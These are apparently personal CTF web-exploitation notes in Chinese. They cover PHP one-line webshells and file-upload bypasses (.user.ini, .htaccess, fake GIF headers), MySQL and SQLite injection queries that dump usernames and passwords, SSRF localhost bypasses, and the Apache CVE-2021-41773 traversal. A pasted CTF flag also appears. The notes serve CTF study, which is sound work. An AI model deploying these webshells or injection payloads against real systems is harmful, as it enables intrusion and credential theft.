> 在你需要用 / 的地方, 换用 $(printf${IFS}'\057') 或者 $(printf${IFS}"\057")

#### 一句话木马

常用一句话木马:
```php
GIF89a
<?=@eval($_POST['shell']);?>
```

你需要知道:
`<?= expr ?>` ＝ `<?php echo expr; ?>`

1. 抓包, 把 `Content-Type:` 改为 `image/jpg`
2.  改后缀, 改文件头, 例如 jpg 的文件头 :`GIF89a`
3.  windows 空格绕过: 原理是windows系统不允许最后一个字符是空格, 会自动去掉

#### user.ini 绕过

(PHP>=5.3)利用.user.ini的前提是服务器开启了CGI或者FastCGI，并且上传文件的存储路径下有 `?.php` 可执行文件。所以本题我们要想上传并且执行，首先上传.user.ini文件，然后上传一个图片。
   
    来源:[csdn](https://blog.csdn.net/yuanxu8877/article/details/128071631)

    原理是.user.ini中会指定在同目录上传的其他 php 文件末尾都会 include 其中配置的指定文件, 比如这里就可以是 shell.jpg , (可能 .user.ini 本身设计的初衷是一个无管理员的为共享主机环境下的用户自定义需求)利用这个方式完成webshell (php解析)的上传. 

    .user.ini 一共 include 两个选项: auto_prepend_file和auto_append_file, 一个在前面一个在后面:

```php
auto_prepend_file=shell.jpg
```

    这个利用本质上是一个借刀杀人的过程, 只要服务器在该路径尝试加载并解析任何php源文件, 就会连同上传的 webshell 一起触发

#### 变种的一句话木马

首先可做php解析的文件后缀: php3, php5, php7, pht,phtml 等

以及这种表达方式: 

```html
<script language="php">
    <?=@eval($_POST['shell']);?>
</script>
```

绕过 `<?`:
```html
<script language="php">
    system($_GET['cmd']); // 执行系统命令
</script>
```

#### .htaccess解析漏洞

我们先创建一个文件，文件名为.htaccess，内容为

```php
<FilesMatch "abc" >
SetHandler application/x-httpd-php
</FilesMatch>
```

代码的意思就是，将当前目录下文件名为abc的文件当成php来解析

## sqli

### 标准的mysql注入姿势

```sql
-- 先查库名
SELECT DATABASE()

--表名
SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE table_schema='mydb'

--列名
SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE table_name='users'
-- 如果不止一个库里有 users 表，可能需要加上 AND table_schema='mydb'

--具体数据项
SELECT GROUP_CONCAT(username, ':', password) FROM users
```

### 截取字符

如:


```sql
substring(a,1,24) -- 操作字符串, 开始位置, 长度
mid(a,1,20) -- 和mid 一样
left(a,1,24) -- 操作字符串, 左端长度 (right 同理)
```

NSSCTF{29fdd4e6-0419-4132-9768-fe1a52c00f8c}

### 对 sqlite3 数据库的注入

跟其他数据库结构略有不同:

|对比项|MySQL|SQLite3|
|----|----|----|
|**数据库引擎类型**|客户端/服务端架构，支持网络连接|嵌入式单文件，不提供网络监听，仅进程内访问|
|**多语句执行**|默认支持（可`;`分隔多条语句，若未禁用）|**不支持**多语句；`;`总被当作普通字符或语句结束|
|**注释语法**|`--`、`#`、`/*...*/`|同上，但`--`必须跟空格：`-- 注释`|
|**联合查询（UNION）**|广泛支持，字段类型可自动转换|支持`UNION[ALL]`，但强制要求列数与类型可兼容|
|**报错注入**|`UPDATEXML()`、`EXTRACTVALUE()`、`FLOOR()`等函数易触发XML/数学错误并回显|**基本无**内置报错函数；难以通过报错读取数据|
|**字符串拼接**|`CONCAT()`、`CONCAT_WS()`、`GROUP_CONCAT()`等|`（标准SQL）拼接，或者`printf()`、`quote()`|
|**布尔注入**|`AND1=1/1=2`，`IF()`、`CASEWHEN`均可|同样支持`AND1=1`；也可用`CASEWHEN…THENRAISE(ABORT,…)END`|
|**时间盲注**|`SLEEP(n)`、`BENCHMARK()`|**无**`SLEEP()`；可用大查询（如`randomblob(1000000000)`）拖慢响应，或加载扩展|
|**子查询支持**|完整支持|自3.8.x起支持相关子查询，但某些版本对`UPDATE…FROM`、`DELETE…USING`有限制|
|**元函数差异**|`DATABASE()`、`USER()`、`VERSION()`|`sqlite_version()`、`sqlite_source_id()`|
|**文件操作**|`LOAD_FILE()`、`INTOOUTFILE`等|**无**文件读写，除非开启扩展`fileio`|
|**权限与安全模型**|完整的用户/权限体系，基于`GRANT`|无概念；权限由操作系统文件权限和应用程序控制|
|**布尔/报错/联合/盲注**|全面可用，报错与时间盲注尤为高效|**联合注入**常用；报错注入匮乏；时间盲注受限须创意|

查询 sqlite 的信息主要靠 `sqlite_master` 这张系统表:

sqlite_master 表的结构包含以下几个字段：

- type: 记录项目的类型，如table、index、view、trigger。
- name: 记录项目的名称，如表名、索引名等。
- tbl_name: 记录所从属的表名，对于表来说，该列就是表名本身。
- rootpage: 记录项目在数据库页中存储的编号。对于视图和触发器，该列值为0或者NULL。
- sql: 记录创建该项目的SQL语句。

比如这个结构:

|type|name|tbl_name|rootpage|sql|
|----|----|----|----|----|
|table|employees|employees|2|CREATE TABLEemployees(id INTEGER PRIMARY KEY, name TEXT, dept TEXT, salary REAL)|
|table|departments|departments|5|CREATE TABLE departments(dept_id INTEGER, dept_name TEXT UNIQUE)|
|index|sqlite_autoindex_departments_1|departments|8|NULL (自动为 UNIQUE 约束创建的索引)|
|index|idx_emp_salary|employees|11|CREATE INDEX idx_emp_salary ON employees(salary DESC)|
|view|high_salary_emp|high_salary_emp|0|CREATE VIEW high_salary_emp AS SELECT * FROM employees WHERE salary > 10000|
|trigger|audit_emp_update|employees|0|CREATE TRIGGER audit_emp_update AFTER UPDATE ON employees BEGIN INSERT INTO audit_log VALUES(old.id, datetime('now')); END|

#### 其余常用姿势

通常回显都只有一行, 要吧所有的内容挤在一起, 就要用group concat()这个函数

## bash 指令

### tee

tee 指令作用为读取标准输入, 并输出到指定的文件, 最常见的用法:

```bash
command | tee file.txt
```

### tail

tail 指令本身是输出文件尾部, 但是也可以作为 cat 的替代使用;

此外用 `tail -f` 可以只输出新增内容:

### tac

tac 指令用来从最后一行从后往前输出内容:

```bash
tac /f?ag
```

## SSRF

用人话简单的来说 (并不准确, 粗略的从纯应用的来说) SSRF 攻击就是伪造服务器身份去访问服务器资源, 不妨设想一个场景, 服务器上的某路由资源限制了访问 IP 必须为 127.0.0.1 (本地), 而该服务器有某 API 直接或者间接提供了访问服务 (**注意, 是服务器访问, 本质上服务器是作为代理在工作**), 那么就很有可能存在 SSRF 漏洞;

### 常用 bypass

#### IPV6 

```bash
# IPv4
127.0.0.1
localhost

# --------
# IPv6

# 最简单
http://[::1]/
# 把 IPv4 嵌入 IPv6 格式
http://[::ffff:127.0.0.1]/
# 十六进制压缩写法
http://[::ffff:7f00:1]/
```

注意, 必须带方括号, 去掉很容易解析失败;
链路本地地址如果带接口名, 则需要将 `:` URL 转义为 `%25`;

## Apache 常用漏洞

### CVE-2021-41773 路径穿越

生效版本: Apache HTTP Server 2.4.49

`../` 被 WAF, 但是 `.%2e/` 或者 `%2e%2e/` (全用或者混用 URL 编码) 可以通过; 绕过 WAF, 执行结果是读取 Apache web 目录以外的其他文件; 或者在开启了 cgi 的服务器上**执行任意命令**;
